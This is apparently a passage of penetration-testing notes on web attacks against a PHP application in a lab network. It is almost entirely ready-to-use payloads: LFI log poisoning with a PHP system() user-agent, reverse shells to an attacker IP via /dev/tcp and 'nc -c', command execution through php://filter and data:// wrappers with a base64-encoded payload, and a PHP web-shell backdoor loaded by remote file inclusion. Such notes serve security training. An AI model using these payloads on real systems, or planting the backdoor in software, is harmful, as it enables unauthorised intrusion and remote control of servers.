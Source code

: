 Send a reverse shell (encoded payload `bash -c "bash -i >& /dev/tcp/192.168.45.241/8001 0>&1"`)
```
GET /meteor/index.php?page=../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.241%2F8001%200%3E%261%22 HTTP/1.1
Host: 192.168.196.16
User-Agent: pentest <?php echo system($_GET['cmd']); ?>
Accept: */*
Connection: keep-alive
```


## LFI PHP wrappers

Base64 encode php code via `php://filter` wrapper and output as a text

```
http://192.168.196.16/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```

Command execution via `data://` wrapper
```
curl "http://192.168.196.16/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```

Command execution with `system` bypass via base64 encoding
```
curl "http://192.168.196.16/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

## RFI

simple-backdoor.php
```php 
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

Include php file and provide a command to execute
```
curl "http://192.168.196.16/meteor/index.php?page=http://192.168.45.241/simple-backdoor.php&cmd=ls"
```


## RCE

Linux based using `nc -c` payload
`Archive=2ip.ru%3Bnc%20-c%20bash%20192.168.45.241%2080`
